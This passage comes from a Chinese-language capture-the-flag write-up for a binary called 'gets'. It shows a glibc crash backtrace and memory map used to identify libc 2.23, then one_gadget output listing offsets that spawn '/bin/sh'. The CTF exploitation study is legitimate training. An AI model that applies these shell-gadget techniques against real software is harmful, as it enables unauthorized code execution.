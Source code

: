 最后发现报出了如下错误，一方面，我们可以判断出这肯定是 2.23 版本的 libc；另外一方面，我们我们可以通过`(cfree+0x4c)[0x7f57b6f9253c]`来最终定位 libc 的版本。

```
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f57b6f857e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x8037a)[0x7f57b6f8e37a]
/lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x7f57b6f9253c]
/lib/x86_64-linux-gnu/libc.so.6(+0xf2c40)[0x7f57b7000c40]
[0x7ffdec480f20]
======= Memory map: ========
00400000-00401000 r-xp 00000000 00:28 48745                              /mnt/hgfs/CTF/2018/1124XNUCA/pwn/gets/gets
00600000-00601000 r--p 00000000 00:28 48745                              /mnt/hgfs/CTF/2018/1124XNUCA/pwn/gets/gets
00601000-00602000 rw-p 00001000 00:28 48745                              /mnt/hgfs/CTF/2018/1124XNUCA/pwn/gets/gets
00b21000-00b43000 rw-p 00000000 00:00 0                                  [heap]
7f57b0000000-7f57b0021000 rw-p 00000000 00:00 0
7f57b0021000-7f57b4000000 ---p 00000000 00:00 0
7f57b6cf8000-7f57b6d0e000 r-xp 00000000 08:01 914447                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f57b6d0e000-7f57b6f0d000 ---p 00016000 08:01 914447                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f57b6f0d000-7f57b6f0e000 rw-p 00015000 08:01 914447                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f57b6f0e000-7f57b70ce000 r-xp 00000000 08:01 914421                     /lib/x86_64-linux-gnu/libc-2.23.so
7f57b70ce000-7f57b72ce000 ---p 001c0000 08:01 914421                     /lib/x86_64-linux-gnu/libc-2.23.so
7f57b72ce000-7f57b72d2000 r--p 001c0000 08:01 914421                     /lib/x86_64-linux-gnu/libc-2.23.so
7f57b72d2000-7f57b72d4000 rw-p 001c4000 08:01 914421                     /lib/x86_64-linux-gnu/libc-2.23.so
7f57b72d4000-7f57b72d8000 rw-p 00000000 00:00 0
7f57b72d8000-7f57b72fe000 r-xp 00000000 08:01 914397                     /lib/x86_64-linux-gnu/ld-2.23.so
7f57b74ec000-7f57b74ef000 rw-p 00000000 00:00 0
7f57b74fc000-7f57b74fd000 rw-p 00000000 00:00 0
7f57b74fd000-7f57b74fe000 r--p 00025000 08:01 914397                     /lib/x86_64-linux-gnu/ld-2.23.so
7f57b74fe000-7f57b74ff000 rw-p 00026000 08:01 914397                     /lib/x86_64-linux-gnu/ld-2.23.so
7f57b74ff000-7f57b7500000 rw-p 00000000 00:00 0
7ffdec460000-7ffdec481000 rw-p 00000000 00:00 0                          [stack]
7ffdec57f000-7ffdec582000 r--p 00000000 00:00 0                          [vvar]
7ffdec582000-7ffdec584000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

确定好了 libc 的版本后，我们可以选一个 one_gadget，这里我选择第一个，较低地址的。

```shell
➜  gets one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL
```